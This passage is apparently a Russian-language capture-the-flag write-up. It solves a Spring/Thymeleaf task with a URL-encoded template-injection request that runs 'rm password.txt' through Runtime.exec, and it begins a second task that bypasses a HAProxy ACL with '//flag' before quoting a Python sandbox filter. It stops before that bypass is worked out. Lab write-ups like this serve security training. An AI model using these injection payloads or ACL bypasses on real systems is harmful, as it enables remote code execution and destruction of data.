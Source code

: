 Фактически, при запросе на `/login?password=hwr`, сервер кладет в переменную `adminPassword` пароль из файла `password.txt`, а в случае отсутствия кладет туда значение `SpringInputPasswordFieldTagProcessor.PASSWORD_INPUT_TYPE_ATTR_VALUE`, что на самом деле просто строка `"password"`

Далее он сравнивает поданное в аргумент `password` значение и  
содержимое `adminPassword`, и если они равны - отдает флаг

Следовательно нужно удалить `password.txt`, а потом обратится на `/login?password=password`

Далее, в статье указанной выше видим эксплойт для ровно такого же функционала по пути `/doc`, модифицируем для удаления пароля, URL-кодируем, совершаем запрос:

```jsx
GET /doc/__%24%7BT%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22rm%20password.txt%22%29%7D__%3A%3A.xHTTP/1.1
```

Далее, идем на страницу `/login?password=password`,  видим флаг

```html
Whitelabel Error Page

This application has no explicit mapping for /error, so you are seeing this as a fallback.
Thu Mar 21 07:33:12 UTC 2024
There was an unexpected error (type=Internal Server Error, status=500).
Error resolving template [nto{abobovichasdfas}], template might not exist or might not be accessible by any of the configured Template Resolvers
```

FLAG: nto{abobovichasdfas}




# web3

Проанализировав исходный код сервиса, ставим перед собой две задачи:

1) Обойти `ACL` HAProxy из `haproxy.cfg`:

```powershell
acl restricted_page path_beg,url_dec -i /flag
http-request deny if restricted_page
```

Это достигается обращением на URL `//flag`.

2) Обойти Python sandbox на endpoint’e `/flag`:

```python
forbidden_symbols = ['|join', '[', ']', '(', ')', 'mro', 'base', 'class', ',', '{{', '}}']

def contains_forbidden_symbols(word):
    return any(symbol in word for symbol in forbidden_symbols)

def sanitize_input(payload):
    words = re.findall(r'\w+', payload)
    return any(contains_forbidden_symbols(word) for word in words)
```
